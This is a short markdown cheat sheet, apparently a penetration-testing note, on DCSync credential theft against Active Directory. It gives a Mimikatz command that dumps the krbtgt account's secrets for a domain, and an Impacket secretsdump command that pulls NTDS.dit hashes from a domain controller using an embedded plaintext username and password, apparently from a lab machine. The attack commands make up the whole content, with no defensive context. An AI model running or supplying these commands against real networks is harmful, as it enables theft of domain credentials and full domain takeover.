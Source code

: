 # DC Sync

## Locally

```powershell
# DCSync locally with mimikatz for specific user
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

## Remotely

```powershell
# Get NTDS.dit via Impacket secretsdump remotely
secretsdump.py -dc-ip 10.10.149.145 spookysec.local/backup:backup2517860@10.10.149.145
```
